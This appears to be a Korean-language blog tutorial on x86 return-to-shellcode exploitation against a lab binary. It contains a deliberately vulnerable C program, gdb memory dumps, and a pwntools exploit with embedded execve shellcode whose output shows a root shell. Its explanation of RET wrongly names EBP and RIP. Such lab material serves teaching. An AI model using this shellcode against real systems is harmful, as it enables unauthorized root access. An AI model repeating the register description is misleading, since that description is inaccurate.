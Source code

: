 ```yaml
---
layout: post
title: "x86 Return to Shellcode"
categories: Exploit Stack
---
```


Return address 영역에 Shellcode가 저장된 주소로 변조해, Shellcode 호출하는 기법이다.

#### **CALL**
1. Return address를 Stack에 저장하고, 피연산자 주소로 이동.

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; CALL
push return_address
jmp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -z execstack -fno-stack-protector -o test test.c
#include <stdio.h>
#include <unistd.h>

void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}

void main(){
    vuln();
}
```

"A"62 + "B"4 입력 시 Return address 조작이 가능하다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx $ebp
0xbfa06f08:	0x41414141	0x42424242	0xb7eda30a	0xbfa06f30
0xbfa06f18:	0x00000000	0xb7d40637	0xb7eda000	0xb7eda000
```

ASLR 적용되어 있어 Stack 주소 랜덤하지만 지역변수 buf의 주소가 출력되므로 buf에 Shellcode 삽입하고 Return address에 buf 주소 삽입하여 Shellcode 실행할 수 있다.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p = process('./test')
recv = p.recvline()
buf = int(recv.split(' ')[3].split('n')[0],16)
print('buf: '+hex(buf))

p.sendline('\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80'+'A'*31+ p32(buf))
p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~/vulns/RTS$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './test': pid 16624
buf: 0xbfe9be8e
[*] Switching to interactive mode
1󿾱ٱəxb0xa4̀jx0bXQh//shh/binx89㊑̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx8exbe
$                                                                             id
uid=0(root) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/02.Return+to+Shellcode](https://www.lazenca.net/display/TEC/02.Return+to+Shellcode)

